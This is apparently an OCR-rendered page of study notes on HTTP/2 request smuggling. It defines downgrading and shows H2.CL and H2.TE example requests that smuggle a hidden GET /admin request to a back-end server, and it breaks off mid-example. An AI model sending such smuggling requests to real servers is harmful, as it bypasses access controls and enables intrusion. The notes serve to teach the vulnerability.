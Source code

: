 ## **HTTP/2 request smuggling**

### **HTTP/2 downgrading**  

HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1

### **H2.CL vulnerabilities**

Front-end (HTTP/2)

<div style="text-align: justify">
:method	POST

:path	/example

:authority	vulnerable-website.com

content-type	application/x-www-form-urlencoded

content-length	0

</div>
GET /admin HTTP/1.1

Host: vulnerable-website.com

Content-Length: 10

x=1

Back-end (HTTP/1)

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

### **H2.TE vulnerabilities**

Front-end (HTTP/2)
<div align='center'>

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
transfer-encoding	chunked
```
